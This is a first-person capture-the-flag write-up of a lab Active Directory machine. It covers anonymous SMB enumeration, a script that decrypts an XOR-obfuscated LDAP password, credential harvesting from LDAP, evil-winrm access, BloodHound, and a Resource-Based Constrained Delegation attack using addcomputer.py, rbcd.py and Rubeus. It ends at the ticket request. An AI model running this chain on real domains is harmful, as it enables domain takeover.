Support Machine
Full Active Directory compromise through SMB enumeration, binary reverse engineering, LDAP credential harvesting, and Resource-Based Constrained Delegation abuse
About Target
Support is a Windows machine that features an SMB share that allows anonymous authentication.
After connecting to the share, an executable file is discovered that is used to query the machine's
LDAP server for available users. Through reverse engineering, network analysis or emulation, the
password that the binary uses to bind the LDAP server is identified and can be used to make further
LDAP queries. A user called support is identified in the users list, and the
info field is found to contain his password, thus allowing for a WinRM connection to
the machine. Once on the machine, domain information can be gathered through SharpHound, and
BloodHound reveals that the Shared Support Accounts group that the support user is a member of,
has GenericAll privileges on the Domain Controller. A Resource Based Constrained Delegation attack
is performed, and a shell as NT Authority\System is received.
Attack Phases
- Phase 1 Reconnaissance
- Phase 2 SMB Enumeration
- Phase 3 Reverse Engineering and Decryption
- Phase 4 LDAP Enumeration
- Phase 5 WinRM Access
- Phase 6 BloodHound Enumeration
- Phase 7 RBCD Attack and Privilege Escalation
- Phase 8 Domain Compromise

Phase 1 Reconnaissance
I first performed an initial active reconnaissance using nmap scanning on the target IP address, and it turned out that the device was a domain controller with important open ports.

Scan Results
| Port | Service | Description |
|---|---|---|
| 53 | DNS | Domain Name System converts names to IPs |
| 88 | Kerberos | Authentication protocol for Active Directory TGT/TGS tickets |
| 135 | RPC | Remote Procedure Call |
| 139 | NetBIOS | Legacy sharing system |
| 389 | LDAP | Lightweight Directory Access Protocol Active Directory database |
| 445 | SMB | Server Message Block file sharing lateral movement |
| 464 | kpasswd | Kerberos password change protocol |
| 593 | RPC over HTTP | Remote control service |
| 636 | LDAPS | Secure LDAP encrypted |
| 3268 | Global Catalog LDAP | Allows searching for any objects in AD forest |
| 3269 | Global Catalog SSL | Secure Global Catalog |
Target Information
| Field | Value |
|---|---|
| Target IP | 10.126.230.181 |
| OS | Microsoft Windows Server |
| Hostname | Domain Controller |
| Domain | support.htb |
Phase 2 SMB Enumeration
I enumerated and listed the available SMB shares using smbclient with null session
authentication that had no password required.

smbclient -L //10.129.230.181 -N
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
NETLOGON Disk Logon server share
support-tools Disk support staff tools
SYSVOL Disk Logon server share
I successfully accessed the support-tools share without providing credentials and
downloaded a suspicious file named UserInfo.exe.zip.

smbclient //10.129.230.181/support-tools -N
smb: \> ls
. D 0 Wed Jul 20 18:01:06 2022
.. D 0 Sat May 28 12:18:25 2022
7-ZipPortable_21.07.paf.exe A 2880728 Sat May 28 12:19:19 2022
npp.8.4.1.portable.x64.zip A 5439245 Sat May 28 12:19:55 2022
putty.exe A 1273576 Sat May 28 12:20:06 2022
SysinternalsSuite.zip A 48102161 Sat May 28 12:19:31 2022
UserInfo.exe.zip A 277499 Wed Jul 20 18:01:07 2022
windirstat1_1_2_setup.exe A 79171 Sat May 28 12:20:17 2022
WiresharkPortable64_3.6.5.paf.exe A 44398000 Sat May 28 12:19:43 2022
smb: \> get UserInfo.exe.zip
getting file \UserInfo.exe.zip of size 277499 as UserInfo.exe.zipPhase 3 Reverse Engineering
After extracting the contents of the ZIP archive, I analyzed the extracted files and identified
that the UserInfo.exe binary contained sensitive data. I reversed the program using
Ghidra, used strings across the file and discovered an enc_password variable and a
getPassword function, indicating that the password was encrypted. I then located the
encrypted password in the hex dump using xxd.


00001e20: 656e 7472 7900 0000 0061 3000 4e00 7600 entry....a0.N.v.
00001e30: 3300 3200 5000 5400 7700 6700 5900 6a00 3.2.P.T.w.g.Y.j.
00001e40: 7a00 6700 3900 2f00 3800 6a00 3500 5400 z.g.9./.8.j.5.T.
00001e50: 6200 6d00 7600 5000 6400 3300 6500 3700 b.m.v.P.d.3.e.7.
00001e60: 5700 6800 7400 5700 5700 7900 7500 5000 W.h.t.W.W.y.u.P.
00001e70: 7300 7900 4f00 3700 3600 2f00 5900 2b00 s.y.O.7.6./.Y.+.
00001e80: 5500 3100 3900 3300 4500 000f 6100 7200 U.1.9.3.E...a.r.
00001e90: 6d00 6100 6e00 6400 6f00 0025 4c00 4400 m.a.n.d.oI extracted the hash and key:
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193Ekey =
armando
I discovered that the decryption method used XOR encryption using the key armando
and a constant value of 223.
I wrote this Python script to reverse the XOR encryption and decode the base64 encoded password:
import base64
enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"
enc_bytes = base64.b64decode(enc_password)
decrypted = []
for i in range(len(enc_bytes)):
decrypted_char = enc_bytes[i] ^ ord(key[i % len(key)]) ^ 223
decrypted.append(decrypted_char)
password_res = bytes(decrypted).decode('utf-8')
print(f"decrypted password: {password_res}")nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
Phase 4 LDAP Enumeration
By obtaining credentials for the service account ldap, I performed an LDAP enumeration
against the Domain Controller.
ldapsearch -x -H ldap://10.129.228.244 -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb'
Key Findings
+ domain :
dn: DC=support,DC=htb
dc: support
ms-DS-MachineAccountQuota: 10
msDS-Behavior-Version: 7
+ administrator user :
dn: CN=Administrator,CN=Users,DC=support,DC=htb
objectSid: S-1-5-21-1677581083-3380853377-188903654-500
userAccountControl: 512 (Enabled)
memberOf: Domain Admins, Enterprise Admins, Schema Admins, Administrators
+ kerberos : krbtgt account
dn: CN=krbtgt,CN=Users,DC=support,DC=htb
objectSid: S-1-5-21-1677581083-3380853377-188903654-502
+ domain controller :
dn: CN=DC,OU=Domain Controllers,DC=support,DC=htb
dNSHostName: dc.support.htb
operatingSystem: Windows Server 2022 Standard
+ groups :
CN=Domain Admins,CN=Users,DC=support,DC=htb
CN=Enterprise Admins,CN=Users,DC=support,DC=htb
CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
+ user : support
dn: CN=support,CN=Users,DC=support,DC=htb
info: Ironside47pleasure40Watchful
memberOf: Remote Management Users
memberOf: Shared Support Accountssupport had their password exposed in
the info attribute: Ironside47pleasure40Watchful
Phase 5 WinRM Access
I logged in with support user credentials via WinRM to the domain controller.
evil-winrm -i 10.129.228.244 -u support -p 'Ironside47pleasure40Watchful'
I then enumerated the domain using BloodHound and discovered that the support user had
GenericAll privilege on the Domain Controller, this allowed me to perform an
RBCD Resource-Based Constrained Delegation attack to compromise the full domain.
I leveraged the support credentials to authenticate to the Domain Controller via WinRM using
evil-winrm, I established a remote PowerShell session and confirmed my user context
as support\support.

Phase 6 BloodHound Enumeration
After establishing the initial access as the support user, I needed to understand the Active Directory environment and identify potential privilege escalation paths. I deployed BloodHound to map the domain structure and analyze permissions.
I uploaded SharpHound.exe to the Domain Controller and collected Active Directory data.
I imported the data into BloodHound and discovered that the support user had
GenericAll privilege over the Domain Controller.
Step 1 Confirm Current Position
Before proceeding with enumeration, I verified my current context and privileges on the Domain Controller:
*Evil-WinRM* PS C:\Users\support\Desktop> whoami
support\support
*Evil-WinRM* PS C:\Users\support\Desktop> hostname
dc
*Evil-WinRM* PS C:\Users\support\Desktop> ipconfig
Windows IP Configuration
Ethernet adapter Ethernet0:
IPv4 Address. . . . . . . . . . . : 10.129.228.244
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : 10.129.228.1
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ============================== =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\support\Desktop> whoami /groups
GROUP INFORMATION
-----------------
BUILTIN\Remote Management Users Mandatory group, Enabled by default
BUILTIN\Users Mandatory group, Enabled by default
NT AUTHORITY\NETWORK Mandatory group, Enabled by default
NT AUTHORITY\Authenticated Users Mandatory group, Enabled by defaultsupport user was a member of the
Remote Management Users group, which granted WinRM access. However, the user
does not possess direct administrative privileges. Therefore, I needed to identify and execute
a privilege escalation attack to gain higher-level access.
Step 2 Upload and Execute BloodHound Collector
I uploaded SharpHound.exe, the BloodHound data collector, to the Domain Controller.
*Evil-WinRM* PS C:\Users\support\Desktop> upload SharpHound.exeTo collect comprehensive Active Directory data, I executed SharpHound.exe with the
All collection method, capturing information about users, groups, computers, ACLs,
trust relationships, and other domain objects.
*Evil-WinRM* PS C:\Users\support\Desktop> .\SharpHound.exe -c AllAfter the collection completed, I downloaded the compressed data to my attack machine.
*Evil-WinRM* PS C:\Users\support\Desktop> download res_bloodHound.zipStep 3 Analyze Collected Data with BloodHound
I set up the neo4j database service, then I launched BloodHound on my attack machine
and imported the collected data.
sudo neo4j start
bloodhoundMost important BloodHound results:




dc.support.htb).
This privilege is particularly powerful because it grants full control over the computer object,
allowing modification of the msDS-AllowedToActOnBehalfOfOtherIdentity attribute.
After evaluating potential attack vectors, I determined that Kerberoasting and AS-REP Roasting
were not viable due to the absence of vulnerable accounts. Instead, I selected a
Resource-Based Constrained Delegation (RBCD) attack, as GenericAll
on the Domain Controller is a direct prerequisite for this technique. Additionally, the domain's
ms-DS-MachineAccountQuota was set to 10, enabling me to create a
fake machine account to act as the delegation intermediary.
Why RBCD over other methods:
- Direct Exploitation: GenericAll on a computer object can be directly leveraged to configure RBCD without requiring additional privileges
- MachineAccountQuota: The domain's ms-DS-MachineAccountQuota was set to 10, allowing me to create a fake machine account a prerequisite for RBCD
- WinRM Access: The support user already had WinRM access, enabling me to upload tools and execute commands on the DC
- Comparison to Alternatives:
Kerberoasting: No vulnerable SPNs were detected
DCSync: Would require Domain Admin privileges already
Golden Ticket: Would require krbtgt hash extraction first
Phase 7 RBCD Attack
After discovering that the support user had GenericAll privileges on the Domain Controller, I
created a fake machine account named ANR$ and configured Resource-Based Constrained
Delegation (RBCD) to allow this fake device to impersonate any user.
Step 1 Create a Fake Machine Account
export TARG_IP="10.129.101.216"
python3 addcomputer.py -computer-name 'ANR$' -computer-pass "passtopass" -dc-host $TARG_IP 'support.htb/support:Ironside47pleasure40Watchful'
ms-DS-MachineAccountQuota was set to 10,
allowing any authenticated user to create up to 10 machine accounts.
Step 2 Calculate RC4 Hash
I calculated the RC4 (NTLM) hash of the fake machine account's password, which would be required for the attack.
python3 -c "import hashlib; print(hashlib.new('md4', 'passtopass'.encode('utf-16le')).hexdigest())"
c8985874e37925d423423b330fe4e905
Step 3 Configure RBCD on Domain Controller
Using the rbcd.py script module, I granted the fake machine account ANR$
the right to impersonate any user on the Domain Controller DC$.
python3 rbcd.py -delegate-from 'ANR$' -delegate-to 'DC$' -action write 'support.htb/support:Ironside47pleasure40Watchful' -dc-ip $TARG_IP
Step 4 Request Administrator Ticket via S4U2Proxy
I uploaded Rubeus2.exe to the Domain Controller using my existing WinRM session and
executed the S4U2Proxy attack.

*Evil-WinRM* PS C:\Users\support\Desktop> .\Rubeus2.exe s4u /user:ANR$ /rc4:c8985874e37925d423423b330fe4e905 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /outfile:admin.kirbi

